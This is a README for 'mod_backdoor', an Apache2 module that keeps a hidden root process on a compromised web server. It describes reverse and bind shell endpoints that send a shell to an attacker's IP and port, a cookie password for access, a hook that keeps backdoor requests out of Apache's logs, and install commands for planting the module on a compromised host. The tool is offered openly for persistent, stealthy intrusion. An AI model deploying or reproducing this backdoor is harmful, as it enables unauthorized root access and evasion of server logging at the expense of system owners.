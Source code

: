 # Apache2 mod_backdoor
Apache2 Module Backdoor is a stealth backdoor using an Apache2 module.<br/>
The main idea is to fork() the main Apache2 process just after it has loaded its config.
Since it's forked before the root user transfers the process to www-data, you can execute command as root.<br/>
As Apache2 loads its configuration only when you (re)start it, the challenge was to never let die this 
forked root apache2 process, to let us interact as root with the compromised system.

# Features

* Bind TTY Shell
* Reverse Shell (TTY , native, PHP, Perl, Python, Ruby)
* High stability and reliability, each shell spawns a new forked independent root process attached to PID 1
* Socks5 proxy
* Password Protection through cookie headers
* Ping module to know if its still active

There is also a hook to bypass the Apache2 logging mechanism. Each request to the backdoor module **are not logged** by Apache2.

# Demo
***COMING SOON***

# Description

The password is passed through Cookie headers: `Cookie: password=backdoor`. It's defined with `#define` 
in the beginning of mod_backdoor.c, so you could easily edit it.<br/>

Each following requests must contain this password to interact with the module.<br/>
Each request containing this cookie will not be logged by Apache if the module is running. <br/>
<br/>
Each shell spawns in its own process, attached to PID 1 and removed from apache2 cgroup.
 It means it's possible to restart/stop apache2.service from a spawned shell (not true for 
 TTY shells because I need an apache2 process to do the bidirectional communication between socket
 and tty). It also improves stealth, shells are no longer related to apache2.service. <br/>

### Bind TTY Shell
The endpoint  `http[s]://<TARGET>/bind/<PORT>` bind a listening port on `<TARGET>:<PORT>` <br/>
When a connection is initiated to the listening port, the port closes. <br/>
I've used forkpty() to obtain a native TTY shell, working with an IPC UNIX socket to communicate 
between forked TTY process and the new socket you just opened.<br/>
They could be easily upgraded with the famous trick:<br/>
 `CTRL-Z --> stty raw -echo --> fg --> reset`

### Reverse TTY Shell
It works like the bind shell, the endpoint `http[s]://<TARGET>/revtty/<IP>/<PORT>` returns a TTY
shell to `<IP>:<PORT>` <br/>


### Reverse Shell (No TTY)
The endpoint `http[s]://<TARGET>/reverse/<IP>/<PORT>/<PROG>` returns a shell to `<IP>:<PORT>`. <br/>
`<PROG>` must be one of these: <br/>

| Native   | External  |    
| :------: | :--------:|
|   sh     |    php    |
|   bash   |    python |
|   dash   |    ruby   |
|   ash    |    perl   |
|   tcsh   |           |
|   ksh    |           |

`<PROG>` must be in lower-case.<br/>
PHP uses the `exec` function.<br/>
Ruby isn't using `/bin/sh`.

### Socks5 proxy
TODO

### Ping module
The endpoint `http[s]://<TARGET>/ping` tell you if the module is currently working.

# Notes
You could easily edit the different endpoints and the password. It is defined by constants 
at the beginning of `mod_backdoor.c`.<br/>
Apache2 Module Backdoor is inspired from Ringbuilder, created by Juan Manuel Fernandez ([@TheXC3LL](https://twitter.com/TheXC3LL))<br/>
More info about Ringbuilder:<br/>
https://github.com/TarlogicSecurity/mod_ringbuilder <br/>
https://www.tarlogic.com/en/blog/backdoors-modulos-apache/ <br/>

Socks5 code was adapted from https://github.com/fgssfgss/socks_proxy <br/>

# Builds
For development :<br/>
* `apxs -i -a -c mod_backdoor.c -Wl,-lutil` <br/>
 -Wl,-lutil used to link mod_backdoor.so with libutil.so to use forkpty() from <pty.h>
* `systemctl restart apache2`

On a compromised server :<br/>
* Compile it like above for the desired arch and retrieve the mod_backdoor.so
* Copy mod_backdoor.so to `/usr/lib/apache2/modules/mod_backdoor.so`
* Create `/etc/apache2/mod-available/backdoor.load` --> <br/>
 `LoadModule backdoor_module /usr/lib/apache2/modules/mod_backdoor.so`
* `a2enmod backdoor` --> `systemctl restart apache2`

# Author
Vlad Rico ([@RicoVlad](https://twitter.com/RicoVlad))
